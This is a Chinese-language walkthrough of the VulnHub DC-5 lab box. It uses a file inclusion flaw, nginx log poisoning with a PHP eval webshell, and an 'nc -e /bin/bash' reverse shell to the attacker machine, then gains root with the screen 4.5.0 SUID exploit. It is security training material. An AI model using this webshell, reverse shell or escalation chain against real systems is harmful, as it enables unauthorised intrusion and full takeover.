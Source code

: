 [DC-5文档](https://www.vulnhub.com/entry/dc-5,314/)

### 信息收集

```
靶机MAC地址：00:0C:29:CB:E4:31
```

**主机扫描**

```shell
netdiscover -r 192.168.80.0/24
```

![image-20230806191613234](./imgs/image-20230806191613234-1724412534659-19.png)

**端口扫描**

```shell
nmap -sV -p- 192.168.80.139
```

![image-20230806191703134](./imgs/image-20230806191703134-1724412533159-16.png)

### 漏洞发现

浏览器访问80端口

![image-20230806191746245](./imgs/image-20230806191746245-1724412531316-13.png)

找找有没有能够利用的地方，在`Contact`里发现了类似提交的 东西

![image-20230806191836140](./imgs/image-20230806191836140-1724412529508-10.png)

发现点击`Submit`提交后，页面会发生变化

![image-20230806191957268](./imgs/image-20230806191957268-1724412527401-7.png)

![image-20230806192005224](./imgs/image-20230806192005224-1724412525485-4.png)

用bp抓包看看

![image-20230806192123109](./imgs/image-20230806192123109.png)

将抓取到的数据包发送到`Repeater`，点击`Send`查看返回的数据

![image-20230806192231489](./imgs/image-20230806192231489-1724412510395-1.png)

![image-20230806192247169](./imgs/image-20230806192247169-1724412551247-22.png)

不断点击，发现footer不断变化，说明这里可能存在一个独立的脚本文件

爆破一下目录看看

```shell
dirsearch -u 192.168.80.139 -i 200
```

![image-20230806192427575](./imgs/image-20230806192427575-1724412556336-25.png)

浏览器访问这个`http://192.168.80.139/footer.php` 目录

每点击一次页面上的数字就会变

![image-20230806192545346](./imgs/image-20230806192545346-1724412560830-28.png)

改成文件包含的形式`?file=`发现同样可以

![image-20230806192924313](./imgs/image-20230806192924313-1724412571385-31.png)

确定这里存在文件包含漏洞

### 漏洞利用

改变访问路径为`/thankyou.php?file=/etc/passwd` ，可以看到`passwd`文件内容了

![image-20230806193235167](./imgs/image-20230806193235167-1724412590163-34.png)

说明了程序代码在处理包含文件的时候没有严格控制。我们可以把访问路径更改为木马文件

```php
 /thankyou<?php @eval($_REQUEST[123]);?>
```

![image-20230806193854240](./imgs/image-20230806193854240-1724412603518-37.png)

发现报 `404未找到`的错误

对于配置了`nginx`的网站，无论网站有什么操作，都会被记录在`/var/log/nginx/access.log`和`/var/log/nginx/error.log`里面

```shell
/thankyou.php?file=/var/log/nginx/access.log
```



![image-20230806195156826](./imgs/image-20230806195156826-1724412620966-40.png)



木马已经上传，利用中国蚁剑来连接访问

```php
http://192.168.80.139/thankyou.php?file=/var/log/nginx/access.log
```

![image-20230806195305274](./imgs/image-20230806195305274-1724412627642-43.png)

接下来进行`反弹shell`

kali开启监听

```
nc -lvvp 8989 
```



![image-20230806195427316](./imgs/image-20230806195427316-1724412632471-46.png)

利用中国蚁剑打开虚拟终端，反弹shell到攻击机kali上

```shell
nc -e /bin/bash 192.168.80.141 8989
```

![image-20230806195624840](./imgs/image-20230806195624840-1724412640571-49.png)

![image-20230806195814105](./imgs/image-20230806195814105-1724412644218-52.png)

再看kali这边 ，就已经监听到了

![image-20230806195829012](./imgs/image-20230806195829012-1724412647197-55.png)



使用python脚本开启交互模式

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20230806200020629](./imgs/image-20230806200020629-1724412649999-58.png)

查看当前权限，发现只是普通的权限

![image-20230806200057712](./imgs/image-20230806200057712-1724412652544-61.png)

**下一步就该提权了**

### 权限提升

```shell
find / -user root -perm /4000 2>/dev/null
```

![image-20230806200209010](./imgs/image-20230806200209010-1724412655013-64.png)

发现`screen-4.5.0`比较可疑，尝试用`searchsploit`搜索是否存在漏洞

再打开一个终端，进行漏洞查找

```shell
searchsploit screen 4.5.0
```

![image-20230806200344787](./imgs/image-20230806200344787-1724412661814-67.png)

找出`41154.sh`的绝对路径

```shell
searchsploit -p linux/local/41154.sh
```



![image-20230806200639052](./imgs/image-20230806200639052-1724412665783-70.png)

查看文件内容

```shell
cat /usr/share/exploitdb/exploits/linux/local/41154.sh 
```

![image-20230806202051823](./imgs/image-20230806202051823-1724412669660-73.png)

按照文件的说明，可分为三部分，将第一个框里内容保存为第一文件，名为`libhax.c`，然后使用黄色选取的命令编译，编译结束会生成`libhax.so`文件。

第二个框里内容保存为`rootshell.c`文件，使用黄色选区的命令编译，编译结束后生成`rootshell`文件。

将第三个框里内容保存为第三个文件，保存为run.sh  。 这个名字随意。

第一个文件

![image-20230806201821999](./imgs/image-20230806201821999-1724412676844-76.png)

第二个文件

![image-20230806202404740](./imgs/image-20230806202404740-1724412686420-79.png)

第三个文件

![image-20230806202521089](./imgs/image-20230806202521089-1724412688178-81.png)

把`libhax.c和rootshell.c`拖进 蚁剑

![image-20230806202906263](./imgs/image-20230806202906263-1724412695501-85.png)

对`libhax.c和rootshell.c`这两个文件进行编译

![image-20230806203137321](./imgs/image-20230806203137321-1724412700458-88.png)

进到蚁剑的文件管理里面，刷新一下，就能看到编译好的两个文件了

![image-20230806203244901](./imgs/image-20230806203244901-1724412753602-102.png)

然后把`run.sh`也拖进蚁剑里来， ==注意是`/tmp`下==

![image-20230806203421888](./imgs/image-20230806203421888-1724412727609-93.png)

这个时候可以把`libhax.c和rootshell.c`这两个文件删除 ，因为已经编译好了，留他们也没有用了

![image-20230806203726204](./imgs/image-20230806203726204-1724412735092-96.png)

![image-20230806203742381](./imgs/image-20230806203742381-1724412745467-99.png)

进到kali的python交互shell里，切换到`/tmp`目录下

![image-20230806203854543](./imgs/image-20230806203854543-1724412766825-105.png)

运行`run.sh`  输入`bash ./run.sh` 提权

![image-20230806204153258](./imgs/image-20230806204153258-1724412769317-108.png)

可以进行`whoami`查看我是谁

![image-20230806204221570](./imgs/image-20230806204221570-1724412784156-111.png)

进到`/root`查看有无flag

![image-20230806204344552](./imgs/image-20230806204344552-1724412788883-114.png)

### 总结

```shell
信息收集
	主机发现  netdiscouver
	端口扫描  nmap
	目录爆破  dirsearch
漏洞利用
	bp抓包分析footer.php,有文件包含漏洞
	木马上传，查看日志
	反弹shell
	python交互shell
提权
	find / -user root -perm /4000 2>/dev/null
	searchsploit screen 4.5.0
	libhax.c和rootshell.c文件的编译  run.sh
	bash ./run.sh  提权
```



